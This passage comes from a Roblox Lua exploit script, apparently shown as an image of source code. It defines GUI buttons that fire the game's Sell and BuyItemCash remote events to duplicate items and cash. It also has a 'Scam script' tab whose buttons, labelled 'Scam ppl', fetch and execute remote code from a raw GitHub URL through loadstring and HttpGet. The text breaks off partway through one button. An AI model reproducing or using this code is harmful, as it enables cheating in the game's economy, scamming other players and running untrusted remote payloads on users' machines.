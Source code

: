     game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)

Section:NewButton("Dupe Shiny Thing", "Buy item dupe cash", function()
local args = {
        [1] = "Shiny Thing"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
        local args = {
        [1] = "Shiny Thing"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
Section:NewButton("Dupe Spidy", "Buy item dupe cash", function()
local args = {
        [1] = "Spidy"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
        local args = {
        [1] = "Spidy"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
Section:NewButton("Dupe Tulsa Rainbow", "Buy item dupe cash", function()
local args = {
        [1] = "Tulsa rainbow"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
        local args = {
        [1] = "Tulsa rainbow"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
local Tab     = Window:NewTab("Scam script")
local Section = Tab:NewSection("scam working !!")
Section:NewButton("Scam 1V", "Scam ppl", function()
loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)
Section:NewButton("Scam 2V", "Scam ppl", function()